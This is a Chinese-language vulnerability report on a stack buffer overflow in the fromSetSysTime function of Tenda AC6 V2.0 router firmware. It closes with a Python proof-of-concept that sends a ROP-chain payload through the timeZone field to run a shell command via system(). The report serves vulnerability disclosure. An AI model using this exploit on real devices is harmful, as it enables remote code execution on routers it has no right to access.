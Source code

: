 # tenda AC6V2.0 缓冲区溢出漏洞报告  

## 漏洞描述  

在 tenda AC6V2.0 的 `fromSetSysTime` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数timezone可控，满足一定条件后，它的值通过sscanf函数复制给栈上变量timezone_min_buf，造成溢出

<img width="406" alt="{B074EF35-96A2-49EF-879E-4097AD5A7146}" src="https://github.com/user-attachments/assets/ba24ca23-ba20-47e5-ae5f-4566b9939257">




## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_timezone():
	url = f"http://{target_ip}/goform/SetSysTimeCfg" 
	payload = b'aaa:'+b'a'*0xac+rop	
	data = {"timeType": "sync",
		"timeZone": payload
	}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_timezone()

